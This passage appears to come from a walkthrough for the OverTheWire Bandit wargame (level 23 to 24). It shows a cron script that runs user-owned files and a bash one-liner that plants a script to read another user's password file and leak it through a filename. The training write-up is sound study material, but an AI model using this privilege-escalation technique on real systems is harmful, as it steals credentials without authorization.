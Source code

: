 ```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

This script checks the `/var/spool/bandit24` folder and deletes every file in that folder. However, before it deletes each file, it checks if the owner of that file is `bandit23`. If the owner is `bandit23`, it executes the file before deleting it. This allows us to execute any command we want with `bandit24` permissions.

First, we create a temporary directory and file for us to use. We can do this with the `mktemp` command:

```bash
d=$(mktemp -d);s=$(mktemp -p /var/spool/bandit24/ --suffix=.sh)
```

Next, we need a way for `bandit24` to read the password for us and leave it somewhere where we can access. We can do this with the `touch` command. This command will create a file in our temporary directory with the filename as the contents of `/etc/bandit_pass/bandit24`:

```bash
echo "touch $d/\$(cat /etc/bandit_pass/bandit24)"
```

Finally, we have to modify the permissions on our directory and script so that `bandit24` can access it. After waiting a minute to give the `cronjob` time to run, we list the contents of our temporary directory and we should see the password.

```bash
chmod 755 $s;chmod 733 $d;sleep 60;ls $d
```

Don't forget to clean up with `rm -rf` after we're done:

```bash
d=$(mktemp -d);s=$(mktemp -p /var/spool/bandit24/ --suffix=.sh);echo "touch $d/\$(cat /etc/bandit_pass/bandit24)" > $s;chmod 755 $s;chmod 733 $d;sleep 60;ls $d;rm -rf $d
```

[*Back to top*](#overthewire---bandit)
